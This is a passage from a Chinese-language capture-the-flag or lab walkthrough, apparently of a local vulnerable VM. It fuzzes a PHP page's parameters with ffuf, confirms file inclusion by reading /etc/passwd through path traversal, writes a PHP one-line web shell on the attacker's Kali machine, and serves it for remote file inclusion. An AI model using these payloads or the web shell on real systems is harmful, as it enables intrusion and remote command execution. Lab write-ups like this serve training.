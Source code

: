 结合之前的目录扫描，不难想到这个**已经确定存在的文件**不就是**index.html**吗？



重新构建：

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.0.108/secret/evil.php?FUZZ=../index.html -fs 0
#取消参数值的字典 替换为../index.html
#FUZZ模糊测试关键字
```

![image-20211208213756058](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208213756058.png)

结果显示：参数名称command可用

测试访问http://192.168.0.108/secret/evil.php?command=../index.html

![image-20211208214129645](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208214129645.png)

可以正常访问



测试访问http://192.168.0.108/secret/evil.php?command=evil.php

![image-20211208214243394](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208214243394.png)

访问结果仍为空白页面，查看源码为1行空白



测试是否存在文件包含漏洞

访问http://192.168.0.108/secret/evil.php?command=../../../../../../../../etc/passwd

![image-20211208214549193](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208214549193.png)

结果成功读取/etc/passwd，说明存在文件包含漏洞

### 8.远程文件包含

尝试在kali攻击机上构造一句话木马

```
cd /var/www/html
```

```
vi a.php
```

><?php $var=shell_exec($_GET['cmd']); echo $var?>

![image-20211208215246492](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208215246492.png)

利用远程文件包含上传

```
sudo systemctl start apache2 #在kali本机开启web服务 可在执行后 使目标可以访问到a.php
```
